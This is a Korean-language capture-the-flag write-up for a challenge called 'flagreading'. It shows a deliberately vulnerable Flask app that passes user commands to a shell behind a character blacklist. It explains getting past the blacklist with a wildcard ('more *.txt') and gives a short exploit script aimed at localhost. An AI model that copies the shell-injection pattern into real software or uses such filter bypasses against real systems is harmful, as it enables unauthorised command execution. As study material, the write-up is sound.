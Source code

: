 # 문제이름
flagreading
# Usage
- 공란

# Concept
- command injection Filtering Bypass

# Writeup
코드를 살펴보자
```python
from flask import Flask, render_template, request
import subprocess
import re
import time

app = Flask(__name__)
blacklist = set('flag/')
command_executed = False
last_execution_time = 0

def is_valid_command(command):
    if any(char in blacklist for char in command):
        return False
    return True

def execute_command(command):
    try:
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        output = result.stdout.strip()
        error = result.stderr.strip()
        if output:
            return output
        if error:
            return error
    except Exception as e:
        return str(e)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/execute_command', methods=['POST'])
def execute_command_route():
    global command_executed, last_execution_time
    current_time = time.time()
    if command_executed and (current_time - last_execution_time) < 30:
        time_left = 30 - (current_time - last_execution_time)
        return f"You've already executed a command! Please wait {int(time_left)} seconds before trying again."
    command = request.form['command']
    if not is_valid_command(command):
        return "try harder!"
    result = execute_command(command)
    command_executed = True
    last_execution_time = current_time
    return result

if __name__ == '__main__':
    app.run(debug=True, port=5678)

```
이 코드는 블랙리스트에 있는단어를 제외한 명령어를 실행시켜주는 쉘이다
블랙리스트엔 f , l , a , g ,/가 등록되어있다
그래서 우린 cat이라는 명령어를 사용할수도없고 flag라는 단어를 사용도 못한다
자 다른명령어를 서칭해보자
more이라는 명령어를 찾았다
more명령어는 긴 파일을 한 페이지씩 보여주는 명령어이다
그리고 flag라는걸 읽어와야하는데
우리는 와일드카드문자를 사용해서 읽어올수있다
그래서 우리는 와일드카드문자 *을 사용해서 flag라는 문자열을 우회할수있다
따라서 more *.txt라는 명령어를 사용한다면
모든 txt파일을 다 읽어와서 flag를 얻을수있게된다
```python
import requests
url= 'http://localhost:5678/execute_command'

command = 'more *.txt'

response = requests.post(url, data={'command': command})

result = response.text
print(result)
```
익스플로잇코드이다